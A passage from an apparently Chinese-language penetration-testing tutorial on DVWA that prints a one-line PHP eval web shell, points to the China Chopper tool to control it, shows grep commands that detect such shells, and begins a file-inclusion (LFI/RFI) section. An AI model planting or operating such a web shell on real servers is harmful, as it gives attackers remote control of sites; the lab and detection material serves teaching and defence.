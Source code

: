 - < ?php eval($_POST[‘hello’]);? >（hello可以改）
  用工具（中国菜刀）连接进行后台操作

> ==中国菜刀使用==

 ![image-20210901124935113](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901124957.png)

> ==菜刀详解 + 官网下载链接（自备梯子）==

中国菜刀官网：http://www.maicaidao.co/
		腾讯哈勃查毒(轻度风险)：https://habo.qq.com/

在文件中找到readme.txt，里面有详细使用方法

### 2.5、过滤网站不安全文件

==针对以上的注入手段，我们发现这些脚本文件都会有一些共性内容==

> ==通过命令进行搜索查看==

```linux
fgrep -R 'eval($_POST[' /var/www/dvwa     # R 代表递归  fgrep代表原格式匹配
egrep -R 'eval\(\$_POST\[' /var/www/dvwa  # 这种是利用正则匹配 egrep是正则（注意图中的 '\'）
```

 ![image-20210901125641336](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901125641.png)

> ==CC攻击和DDOS的区别？==

- ==CC==攻击是把应用搞垮
- ==DDOS==是把网络搞垮

## 3、文件包含渗透File Inclusion

### 3.1、项目试验环境搭建

 ![1-6](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901212850.png)

本地文件包含：LFI

远程文件包含：RFI

> ==原理手绘图==

 ![1-1](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901213021.png)

绿色框：正常文件
		红色框：上传恶意的本地文件
		黄色框：让服务器主动访问恶意的远程文件

> ==robots.txt(君子协议)==

 ![image-20210901153528062](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901153528.png)



### 3.2、原理及其危害
